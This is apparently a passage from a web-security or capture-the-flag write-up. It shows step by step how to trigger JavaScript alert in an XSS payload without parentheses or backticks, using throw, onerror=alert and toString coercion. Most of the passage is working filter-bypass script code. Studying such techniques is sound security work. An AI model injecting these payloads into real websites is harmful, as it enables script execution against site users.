 If we do hovering again we see that the parenthesis don't appear, we can try with backticks and the same.

We can try to launch an exception with **throw** and try to use an arrow function.

```html
<script>
x = () => {
	throw 2;
}
x();
</script>
```

But you can't use the parenthesis, you can do the same with this sintaxis:

```html
<script>
x = x => {
	throw 2;
}
x();
</script>
```

If you throw multiples values the result that return is the last one, but the previous ones are evaluated.

```html
<script>
x = x => {
	throw onerror=console.log,4;
}
x();
</script>
```

In this case we are overwriting what happens when occur an error in the web, in this case pass the error to console.log function.

Now when throw something, in this case a 4, the 4 passes through the console.log function.

You can try to use alert and see that is interpreted(you can open a simple python server and load this in an index.html)
```html
<script>
x = x => {
	throw onerror=alert,4;
}
x();
</script>
```

We have to remove all the parenthesis:

```html
<script>
x = x => {
	throw onerror=alert,4;
}

toString=x;
window + '';
</script>
```
